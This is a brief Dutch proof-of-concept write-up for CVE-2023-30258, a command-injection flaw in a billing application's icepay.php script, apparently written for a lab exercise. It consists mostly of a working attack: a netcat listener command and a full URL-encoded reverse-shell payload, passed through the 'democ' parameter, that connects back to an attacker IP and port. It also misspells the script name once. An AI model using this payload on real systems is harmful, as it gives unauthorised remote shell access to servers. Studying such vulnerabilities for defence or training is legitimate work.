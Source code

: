 ## POC

### CVE-2023-30258

#### Uitwerking

*De file ciepay.php in /mbilling/lib/icepay directory is kwetsbaar aan een command execution via een get request met params {"democ": payload}.*

#### Proof of Concept

##### Curl Request

```
nc -lvnp 9001
```

```
http://10.10.249.94/mbilling/lib/icepay/icepay.php?democ=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Ccmd%20-i%202%3E%261%7Cnc%2010.9.3.63%209001%20%3E%2Ftmp%2Ff
```

**Resulteert in:**

![alt text](image-1.png)

**Kwetsbaarheid**

![alt text](image-2.png)